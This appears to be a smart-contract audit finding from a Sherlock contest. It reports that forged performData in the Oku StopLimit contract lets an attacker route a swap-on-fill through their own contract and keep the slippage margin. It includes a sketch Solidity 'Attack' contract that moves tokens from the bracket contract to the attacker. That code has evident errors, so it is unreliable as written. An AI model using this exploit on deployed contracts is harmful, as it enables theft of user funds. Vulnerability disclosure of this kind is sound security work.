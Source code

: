Lone Midnight Stallion

Medium

# An attacker can take some profit when create a Bracket Order from a Stop Limit Order with 'Swap-On-Fill'.

### Summary

_No response_

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The attacker calls the `checkUpkeep` function on the `StopLimit` contract.
2. They manipulate the `target` and `txData` in `performData` to point to their own `Attack` contract.

```solidity
contract Attack {
    address public bracketContract;
    address public masterContract;
    address public owner;

    constructor(address _bracket, address _master, address _owner) {
        bracketContract = _bracket;
        masterContract = _master;
        owner = _owner;
    }

    function attack(address tokenIn, address tokenOut, uint256 amountIn, uint256 bips) external {
        uint256 amountOut = masterContract.getMinAmountReceived(amountIn, tokenIn, tokenOut, bips) + 1;

        tokenIn.safeTransferFrom(bracketContract, address(this), amountIn);
        tokenIn.transfer(owner, amountIn);
        tokenOut.transfer(bracketContract, amountOut);

        return (true, bytes(""));
    }
}
```

3. The attacker deposits an amount calculated as `MASTER.getMinAmountReceived(amountIn, tokenIn, tokenOut, bips) + 1` to the `tokenOut` address of their `Attack` contract.
4. The attacker then calls the `performUpkeep` function using the fabricated `performData`.
5. The attacker creates a Bracket Order with a margin (where `takeProfit` and `stopPrice` are set close to the margin).

The margin represents free profit. The higher the `amountIn` and `bips`, the greater the margin (free profit).

### Impact

> #Stop Limit Order with 'Swap-On-Fill'
> User holds 2800 USDC and creates a Stop Limit Order with a stopLimitPrice set to 2800 and swapOnFill set to true
> Once this price is reached, the Stop Limit Order is filled, swapping the 2800 USDC for 1 WETH and creating a new Bracket Order. This new Bracket Order will share the same orderId as the Stop Limit Order

In this scenario, users only receive a calculated amount based on `swapSlippage`, even when they could receive a better token amount.

### PoC

_No response_

### Mitigation

[https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L40-L143](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L40-L143)
To prevent this exploit, ensure that `performData` is validated using `keccak256`.
